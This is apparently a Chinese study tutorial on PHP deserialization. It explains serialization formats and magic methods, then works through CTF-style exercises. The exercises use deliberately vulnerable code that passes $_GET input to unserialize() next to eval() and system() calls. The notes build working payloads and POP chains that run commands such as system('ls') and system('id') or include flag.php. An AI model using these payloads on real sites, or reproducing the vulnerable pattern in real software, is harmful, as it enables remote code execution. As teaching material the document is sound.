






# php反序列化
## 序列化的基础知识

### 常见序列化
序列化是**将对象的状态信息(属性)转化为可以储存或传输的形式**的过程

php中一般用serialize函数进行序列化

下面展示所有类型的序列化结果
```php

 <?php
highlight_file(__FILE__);
class TEST {
    public $data;
    public $data2 = "dazzhuang";
    private $pass;

    public function __construct($data, $pass)
    {
        $this->data = $data;
        $this->pass = $pass;
    }
}
$number = 34;
$str = 'user';
$bool = true;
$null = NULL;
$arr = array('a' => 10, 'b' => 200);
$test = new TEST('uu', true);
$test2 = new TEST('uu', true);
$test2->data = &$test2->data2;
echo serialize($number)."<br />";
echo serialize($str)."<br />";
echo serialize($bool)."<br />";
echo serialize($null)."<br />";
echo serialize($arr)."<br />";
echo serialize($test)."<br />";
echo serialize($test2)."<br />";
?>

i:34;
s:4:"user";
b:1;
N;
a:2:{s:1:"a";i:10;s:1:"b";i:200;}
O:4:"TEST":3:{s:4:"data";s:2:"uu";s:5:"data2";s:9:"dazzhuang";s:10:"TESTpass";b:1;}
O:4:"TEST":3:{s:4:"data";s:9:"dazzhuang";s:5:"data2";R:2;s:10:"TESTpass";b:1;}

```

 **数组序列化**
```php
 <?php
highlight_file(__FILE__);
$a = array('benben','dazhuang','laoliu');
echo $a[0];
echo serialize($a);
?>
benben
a:3:{i:0;s:6:"benben";i:1;s:8:"dazhuang";i:2;s:6:"laoliu";}
```


**对象序列化**
```php
 <?php
highlight_file(__FILE__);
class test{
    public $pub='benben';
    function jineng(){
        echo $this->pub;
    }
}
$a = new test();
echo serialize($a);
?>
O:4:"test":1:{s:3:"pub";s:6:"benben";}
```


**私有修饰符**
```php
 <?php
highlight_file(__FILE__);
class test{
    private $pub='benben';
    function jineng(){
        echo $this->pub;
    }
}
$a = new test();
echo serialize($a);
?>
O:4:"test":1:{s:9:"testpub";s:6:"benben";}
```
注意这里**s:9:"testpub";**pub的长度为9的原因是private私有属性序列化的时候在前后加上%00，所以这里9其实是 **%00testpub%00** ，其中%00是一个长度的，而为什么名称是testpub，是因为私有属性在名称前加上类的名称

**保护修饰符**

```php
 <?php
highlight_file(__FILE__);
class test{
    protected $pub='benben';
    function jineng(){
        echo $this->pub;
    }
}
$a = new test();
echo serialize($a);
?>
O:4:"test":1:{s:6:"*pub";s:6:"benben";}
```
这里长度为6是因为在pub前面加了%00*%00，长度为3


## 魔术方法
了解一个魔术方法需要直到4个东西
1. **触发条件**
2. 功能
3. 参数
4. 返回值
### _constructt()
“构造函数”，在实例化对象的时候，首先回自动执行的一个方法；
触发实机：实例化对象
功能：提前清理不必要内容
参数：非必要
```php
 <?php
highlight_file(__FILE__);
class User {
    public $username;
    public function __construct($username) {
        $this->username = $username;
        echo "触发了构造函数1次" ;
    }
}
$test = new User("benben");

?>

触发了构造函数1次 
```

### _destruct()
“析构函数”，在对象的所有引用被删除或者当对象被显示销毁时执行的魔术方法。
```php
 <?php
highlight_file(__FILE__);
class User {
    public function __destruct()
    {
        echo "触发了析构函数1次"."<br />" ;
    }
}
$test = new User("benben");
$ser = serialize($test);
unserialize($ser);

?>
触发了析构函数1次
触发了析构函数1次
```
这里需要注意的是触发了两次
第一次是反序列**unserialize($ser);**的时候，第二次是运行完代码销毁实例的时候触发一次，序列化并不触发，总共两次。
下面展示一下例题
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $cmd = "echo 'dazhuang666!!';" ;
    public function __destruct()
    {
        eval ($this->cmd);
    }
}
$ser = $_GET["benben"];
unserialize($ser);

?>
```
通过题目代码可以发现纯在_destruct()的漏洞
通过get方式传参，传一些有用的东西如system(ls)等。
通过一串序列化的字符串，在反序列化的时候触发_destruct();
这里需要理解为什么没有给cmd还能执行。因为反序列化时相当于借用了一下功能函数去执行待序列化的东西
于是构造payload
```payload
?benben=O:4:"User":1:{s:3:"cmd";s:13:"system('ls');";}
```

### _sleep()
序列化时会先检查是否存在_sleep()函数,如果存在则先调用再进行序列化
**触发实机**：序列化serialize()之前
**功能**：返回需要被序列化存储的成员属性，删除不必要的属性
**参数**:成员属性
**返回值**：需要被序列化存储的属性
```php
 <?php
highlight_file(__FILE__);
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    public function __construct($username, $nickname, $password)    {
        $this->username = $username;
        $this->nickname = $nickname;
        $this->password = $password;
    }
    public function __sleep() {
        return array('username', 'nickname');
    }
}
$user = new User('a', 'b', 'c');
echo serialize($user);
?>

O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";} 
```
解释代码：
```php
$user = new User('a', 'b', 'c');
```
首先这句代码实例化user的时候会**先触发construct()**，在实例化时将三个成员值为a,b,c;
然后echo serialize($user);序列化的时候会**先调用_sleep()**，因此序列化时值返回2个成员'username', 'nickname'所以最终序列化结果只有两个成员


### _weakup
**触发时机**：反序列化之前
**功能,参数，返回值与sleep()相反**
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        $this->password = $this->username;
    }
}
$user_ser = 'O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}';
var_dump(unserialize($user_ser));
?>
object(User)#1 (4) { ["username"]=> string(1) "a" ["nickname"]=> string(1) "b" ["password":"User":private]=> string(1) "a" ["order":"User":private]=> NULL } 
```
这里在反序列化的时候会先调用wakeup，将username的值给password
```php
$user_ser = 'O:4:"User":2:{s:8:"username";s:1:"a";s:8:"nickname";s:1:"b";}';
```
所以即使上述序列化的语句中没有给password赋值，但是weakup的存在导致最终的结果里面password的值与username一样

看一道简单例题
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    const SITE = 'uusama';
    public $username;
    public $nickname;
    private $password;
    private $order;
    public function __wakeup() {
        system($this->username);
    }
}
$user_ser = $_GET['benben'];
unserialize($user_ser);
?>

```
这里只需要如下构造payload

```
?benben=O:4:"User":1:{s:8:"username";s:2:"id';}
```
这里构造时不需要把4个成员都写上去，因为只用到了username


### _tostring()
表达方式错误导致魔术方法触发

**触发时机**:把对象被当成字符串调用
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $benben = "this is test!!";
         public function __toString()
         {
             return '格式不对，输出不了!';
          }
}
$test = new User() ;
print_r($test);
echo "<br />";
echo $test;
?>
User Object ( [benben] => this is test!! )
格式不对，输出不了!
```

这里的echo $test把对象当作字符转执行时就会触发

### _invoke()

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    var $benben = "this is test!!";
         public function __invoke()
         {
             echo  '它不是个函数!';
          }
}
$test = new User() ;
echo $test ->benben;
echo "<br />";
echo $test() ->benben;
?>
this is test!!
它不是个函数!
```
这里echo $test() ->benben;把对象当作函数调用触发了invoke

###  _call()
**触发时机**：调用一个**不存在的魔术方法**
参数：2个参数，$arg1,$arg2
返回值：调用不存在的方法的名称和参数
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public function __call($arg1,$arg2)
    {
        echo "$arg1,$arg2[0]";
          }
}
$test = new User() ;
$test -> callxxx('a');
?>

callxxx,a 
```

**$arg1** ：

 调用的不存在的方法的名称
**$arg2**：
调用的不存在的方法的参数

例如上述代码callxx()不存在，触发魔术方法call，传参$arg1,$arg2(callxx,a)

### _callStatic()
**触发时机**：静态调用或调用成员常量时**使用的方法**不存在
参数：2个参数，$arg1,$arg2
返回值：调用不存在的方法的名称和参数
```php

 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public function __callStatic($arg1,$arg2)
    {
        echo "$arg1,$arg2[0]";
          }
}
$test = new User() ;
$test::callxxx('a');
?>

callxxx,a 
```
例如::方法不存在所以触发

### _get()
触发时机：调用的成员属性不存在
参数：传参$arg1
返回值：不存在的成员属性的名称
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public $var1;
    public function __get($arg1)
    {
        echo  $arg1;
    }
}
$test = new User() ;
$test ->var2;
?>

var2 
```
例如上述代码中调用的成员属性var2不存在，触发get

### _set()
**触发时机**：给**不存在**的成员属性**赋值**
参数：$arg1,$arg2
返回值：不存在的成员属性的名称和赋的值
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    public $var1;
    public function __set($arg1 ,$arg2)
    {
        echo  $arg1.','.$arg2;
    }
}
$test = new User() ;
$test ->var2=1;
?>

var2,1 
```
例如这里给不存在的var2赋值触发set()


### _isset()
触发时机：对不可访问的属性使用isset()或empty()时，_isset()会被调用
参数：$arg1
返回值：不存在成员属性的名称
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __isset($arg1 )
    {
        echo  $arg1;
    }
}
$test = new User() ;
isset($test->var);
?>

var 
```
例如这里isset调用的var不可访问所以触发

### _unset()
触发时机：对不可访问的成员属性属用unset()
参数：传参$arg1
返回值：不存在的成员属性

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __unset($arg1 )
    {
        echo  $arg1;
    }
}
$test = new User() ;
unset($test->var);
?>

var 
```
unset()与isset()基本同


### _clone()
触发时机：当使用clone关键字拷贝完成一个对象后新对象会自动调用定义的魔术方法_clone()
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class User {
    private $var;
    public function __clone( )
    {
        echo  "__clone test";
          }
}
$test = new User() ;
$newclass = clone($test)
?>
__clone test
```

## pop链
### pop链的前置知识
在反序列化中我们能控制的数据就是对象中的属性值(成员属性)，所以在php反序列化中有一种漏洞利用方法叫作“面向属性编程”。即pop链。

pop链简单来说就是利用魔术方法在里面经行多次跳转然后获取铭感数据的一种payload

构造pop链主要用到反推法
下面通过一道例题了解一下调用链
```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
class index {
    private $test;
    public function __construct(){
        $this->test = new normal();
    }
    public function __destruct(){
        $this->test->action();
    }
}
class normal {
    public function action(){
        echo "please attack me";
    }
}
class evil {
    var $test2;
    public function action(){
        eval($this->test2);
    }
}
unserialize($_GET['test']);
?>
```
首先观察一下整段代码发现可以利用的**漏洞时函数是eval()**，触发evil()的方法是action(),然后看代码发现destruct()从$test中调用action(),所以关键点就是: 如何让$test**调用成员方法action()**

**解决思路：** 给$test赋值对象
注意这里newnormal就是个摆设不用单行影响
下面进行序列化
```php
 <?php
class index {
    private $test;
    public function __construct(){
        $this->test = new evil();
    }
}
class evil {
    var $test2="system('ls')";
}

$a=new index();
echo serialize($a);
?>
```
构造序列化利用到了construct(),在construct方法中**给$test赋值实例化对象tset=new evil();** 当new index()的时候自动触发
```php
 public function __construct(){
        $this->test = new evil();
    }
```
成员属性修改为 **$test2="system('ls')";**
由于是私有属性运行出来的结果是
```
 O:5:"index":1:{s:11:"indextest";O:4:"evil":1:{s:5:"test2";s:12:"system('ls')";}}
 ```
最后构造payload时要加上两个%00
```
?test= O:5:"index":1:{s:11:"%00indextest%00";O:4:"evil":1:{s:5:"test2";s:13:"system('id');";}}
```
或者直接执行语句
```php
echo urlencode(serialize($a));
```

这里补充一下**为什么要构造_construct()来给成员属性赋值实例化对象** ，因为代码中test是private私有属性，只能从**类内部调用**，如果这里的$test不是私有属性可以用下面这种更简单发方法构造序列化
```php
 <?php
class index {
    var $test;
}
class evil {
    var $test2="system('ls')";
}

$a=new evil();
$b=new index();
$b->test=$a;
echo serialize($b);
?>
```
**$b->test=$a;** 这一句就完成了给test赋值实例化对象evil()
以上就是本道例题的有关内容


下面介绍一下魔术方法的触发
**魔术方法触发的前提**:魔术方法所在类或对象被调用
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class fast {
    public $source;
    public function __wakeup(){
        echo "wakeup is here!!";
        echo  $this->source;
    }
}
class sec {
    var $benben;
    public function __tostring(){
        echo "tostring is here!!";
    }
}
$b = $_GET['benben'];
unserialize($b);
?>
```
这道题是为了得到tostring is here!!---->由此需要触发_tostring()

为了触发_tostring()----->需要把sec()实例化成对象当成字符串输出。
观察代码发现如果让source包含实例化sec(),就可以实现把实例化成对象当成字符串输出。**$b=new sec();$a->source=$b;**

最后只需要触发wakeup()。**用$a=new fast();**

理解完上面反推的内容后，逆着上面的内容构造序列化就可以了。

这里没有私有属性直接用简单的方法
```php
<?php
class fast {
    public $source;
}
class sec {
    var $benben;
}
$a=new fast();
$b=new sec();
$a->source=$b;
echo serialize($a);
?>
```
最后构造payload
```
?benben=O:4:"fast":1:{s:6:"source";O:3:"sec":1:{s:6:"benben";N;}}
```

### pop构造链解释
下面通过几道题来理解一下pop构造链
```php
 <?php
//flag is in flag.php
highlight_file(__FILE__);
error_reporting(0);
class Modifier {
    private $var;
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
?> 
```
观察整段代码发现我们要利用的目标是**echo $flag;** 还有提示flag is in flag.php,最终可以猜到**include(\$value)中的\$value是flag.php，然后flag.php中包含\$flag**

如何才能输出falg --> 触发append

触发append需要触发invoke进而调用append，同时还要使$var=flag.php

invoke的触发条件是**把对象当作函数**，然后我们就观察代码找到有没有魔术方法的返回值中有函数
```php
public function __get($key){
        $function = $this->p;
        return $function();
    }
```
找到了一段，这段代码中$fouunction()=p,所以这里需要给\$p赋值为对象使function成为对象Modfile，触发Modfile中的invoke

为了执行上面的代码，我们需要触发_get()方法

触发_get需要的条件是：调用不存在的成员属性。为了满足，我们可以给$str赋值为对象Test,而Test中没有成员属性source，这样就可以触发Test中的成员方法。

完成上面内容需要触发tostring触发条件为:把对象当成字符串
```php
  public function __wakeup(){
        echo $this->source;
    }
```
在这段代码中我们只需要将source赋值为对象Show即可触发tostring

触发tostring的前提是触发wakeup。触发条件时反序列化


根据上面的反推内容我们开始构造pop链
先化成最简形式即删除无关代码(魔术方法等)
```php
 <?php
class Modifier {
    private $var;
}

class Show{
    public $source;
    public $str;
}

class Test{
    public $p;
}
?> 
```
更具上面逆推的内容
第一步让Modfiler中的$var=flag.php
```php
private $var="flag.php";
```

第二步触发invoke，先要把invoke所在类实例化为对象，这样才能有机会调用invoke
```php
$mod =new Modifiler();
```
触发invoke的条件时是把对象当作函数Test类中的有返回值是函数的可以利用，还要给\$p赋值为对象使function成为对象Modfile
```php
$test=new Test();
$test->p=$mod;
```

第三步：给$str赋值为对象Test,而Test中没有成员属性source，这样就可以触发Test中的成员方法get。注意因为涉及到要给Show中的str和source赋值，所以这里要先将Show实例化。
```php
$show=new Show();
$show->str=$test;
```

第四步：将source赋值为对象Show即可触发tostring
```php
$show->source=$show;
```
第五步：执行反序列化触发wakeup
```php
echo serialize($show);
```
最后拼接在一起
```php
 <?php
class Modifier {
    private $var="flag.php";
}

class Show{
    public $source;
    public $str;
}

class Test{
    public $p;
}
$mod =new Modifier();
$test=new Test();
$test->p=$mod;
$show=new Show();
$show->str=$test;
$show->source=$show;

echo serialize($show);
?> 
```

运行代码后拿到结果，但是这里注意private $var是私有属性最后要加上两个%00,或者用urlencode
